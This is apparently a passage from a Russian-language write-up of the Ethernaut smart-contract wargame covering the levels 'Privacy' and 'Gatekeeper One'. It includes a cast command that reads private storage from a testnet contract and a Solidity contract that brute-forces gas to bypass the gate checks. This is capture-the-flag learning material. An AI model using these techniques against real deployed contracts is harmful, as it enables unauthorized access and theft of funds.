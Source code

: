 ```
}
```

### 12. Privacy (***)
Таак, сложного мало - считать слоты - нужен 5й и привести это значение к bytes16
>cast storage 0x04211b24785a79381A8565AD8ca65E56Afa8606B 5 --rpc-url "https://ethereum-sepolia.publicnode.com"
0x9a72a73f65a56cd01bb97958b04cd7544e3c87a5e111771246d594b8f63fbed3
искомое значение: 0x9a72a73f65a56cd01bb97958b04cd754
>contract.unlock("0x9a72a73f65a56cd01bb97958b04cd754")
Easy!

### 13. Gatekeeper One (****)
Вот и добрался я до первого с 4мя звездами. Страшно, блин - пойду поем сначала...
Хотя любопытсво сильнее
msg.sender != tx.origin -> значит вызывать из контракта
gasleft() % 8191 == 0 -> с контролем доступного газа для функции, значит через call
gateThree -> с игрой bytes8 производной от моего адреса
Вот теперь можно пойти поесть))
gateThree -> _gateKey = uint256(uint160(tx.origin) & 0xFFFFFFFF0000FFFF) = 0x8d76a127000063EB
А вот считать оставшийся газ который нужно передать в функцию мне лень. Пусть сам перебирает
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperEnter {
    event Response(bool success, bytes data, uint256 gas);


    function loop(address gatekeeper, uint256 counter) public {
        bytes8 key = bytes8(uint64(uint160(msg.sender) & 0xFFFFFFFF0000FFFF));
        uint256 gas = 8191 + counter + 23000;
        for(uint256 i = gas; i > (8191 + counter); i--) {
            if(crack(gatekeeper, key, i) == true) {
                return;
            }
        }
    }

    function crack(address gatekeeper, bytes8 key, uint gas_value) internal returns(bool){

        (bool success, bytes memory data) = gatekeeper.call{gas: gas_value}(
            abi.encodeWithSignature("enter(bytes8)", key)
        );
        if(success) {
            emit Response(success, data, gas_value);
        }
        return success;
    }
}
```
